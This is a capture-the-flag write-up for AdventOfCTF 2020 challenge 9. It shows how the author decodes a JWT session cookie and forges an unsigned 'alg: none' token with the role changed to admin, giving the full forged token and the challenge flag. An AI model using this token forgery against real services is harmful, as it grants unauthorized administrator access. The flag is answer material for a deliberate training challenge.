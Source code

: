 +++
author = "Maik de Kruif"
title = "JWT"
subtitle = "Challenge 9 - AdventOfCTF"
date = 2020-12-11T21:24:52+01:00
description = "A writeup for challenge 9 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/973ded4b2381c28af6c24d3d670303c6.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_9"
]
+++

- Points: 900

## Description

Can you find a way to get into the Naughty List Management System as an admin?

Visit <https://09.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the website, we're greeted with a login screen. When we enter random credentials, we're greeted with some text: "Hey **user** your **password** is incorrect.".

This took me quite some time to find out, but it's actually fairly obvious. I started by taking a look at the cookies, but there were none. Then I tried some common URLs, but nothing (except `/admin`). Then I took another look at the error message; some bold text... The username is `user` and the password is `incorrect`.

When entering these credentials, we get redirected to `/admin` with a message: "The naughty list is currently empty....". This time, however, we also got a cookie.

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ.rre-8SBgllKlu7KpJFXuO-SEN3s-9IPRSJ7hmclXpNs
```

### JWT

This looks like a JWT. We can confirm this by decoding the text before the first period (`.`):

```bash
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
```

```json
{ "typ": "JWT", "alg": "HS256" }
```

It is a JWT that uses the HMAC-SHA256 (`HS256`) algorithm. Using a [JSON Web Token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) is a compact, URL-safe, way of representing claims between a web server and a client. Let's decode the second part as well.

```bash
echo -n "eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NzE3ODU3fQ" | base64 -d
```

```json
{
  "auth": 28961,
  "text": "I do love a good puzzle.",
  "role": "user",
  "iat": 1607717857
}
```

We don't have to decode the last part as it is a secret that consists of non-printable characters.

The role in the JWT probably has to be changed to `"admin"` so let's try to do that.

#### Modifying a JWT

To modify a JWT, we would have to know the secret that was used to create it. If only there were some [vulnerabilities](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) 😀.

In a JWT you can use `none` as the algorithm. It is intended to be used for situations where the integrity of the token has already been verified. Luckily for us, some libraries treat tokens signed with the `none` algorithm as a valid token with a verified signature. This means anyone can create their own "signed" tokens with whatever payload they want, allowing arbitrary account access on some systems.

To create such a JWT, we just reverse the process. Firstly, we create the first part of the token.

```bash
echo -n '{"typ":"JWT","alg":"none"}' | base64
> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

Then the middle part:

```bash
echo -n '{"auth":28961,"text":"I do love a good puzzle.","role":"admin","iat":1607717857}' | base64
> eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30=
```

And finally, the secret. We can leave this empty because we use the `none` algorithm.

Putting all of this together and removing the padding (`=`), we get `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoyODk2MSwidGV4dCI6IkkgZG8gbG92ZSBhIGdvb2QgcHV6emxlLiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzcxNzg1N30.`

## Solution

When setting the cookie to this value and reloading the page, we get the flag: `NOVI{Jw7_f@ilure_in_n0ne}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#9-10).
